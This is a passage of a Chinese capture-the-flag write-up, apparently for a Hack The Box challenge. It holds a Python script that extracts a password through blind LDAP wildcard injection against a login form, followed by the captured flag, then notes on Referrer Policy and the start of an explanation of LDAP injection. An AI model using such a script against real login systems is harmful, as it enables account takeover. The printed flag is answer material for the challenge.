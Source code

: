       
      def build_post_body_url_encoded(username, password)->str:
          return URL_ENCODED_BODY_FORMAT.format(username, password)
      
      
      def send():
          for i in np.arange(32, 128):
              if chr(i) in BLACKLIST:
                  continue
              global PASSWORD_TO_INTRUDE
              password_temp = PASSWORD_TO_INTRUDE + chr(i) + '%2a'
              data = build_post_body_url_encoded(USERNAME, password_temp)
              resp = requests.post(url=URL, data=data, headers=header, allow_redirects=False)
              if resp.headers.get('Location') == RIGHTLOCATION:
                  PASSWORD_TO_INTRUDE = password_temp.replace('%2a', '')
                  return True
      
      while send():
          print(PASSWORD_TO_INTRUDE)
      ```

    * 运算结果

      ```tex
      HTB{d1rectory_h4xx0r_is_k00l}
      ```

19. 提交，答案正确



## 独立思考

### 1、Referrer Policy字段有什么作用？

* HTTP Request结构
  * 请求行
  * 请求头
    * General
    * Request Headers
  * 请求体
* Referrer Policy存在于请求头的General中用来约束Request Headers中的Referer
* Referer Policy属性值
  * no-referer：任何情况都不发送referer
  * no-referer-when-downgrade：当发生协议降级时不发送Referer，如HTTPS页面加载HTTP资源、HTTPS页面跳转到HTTP页面
  * origin only：发送只包含"协议+HOST"部分的Referer，无论是否跨域、是否降级，都发送Referer，只不过只包含协议及HOST，不包含子路径及GET参数
  * origin when cross origin：仅在发生跨域时发送只包含"协议+HOST"的Referer，同域下发送完整Referer。当Protocol、Host、Port均一致时才会认为同域
  * unsafe url：无论是否跨域、是否降级，都发送完整Referer信息

### 2、LDAP注入漏洞是什么？有什么利用价值？

* LDAP(Lightweight Directory Access Protocol)轻量级目录访问协议，是一种在线目录访问协议，主要对目录中的资源进行搜索和查询

* LDAP存储
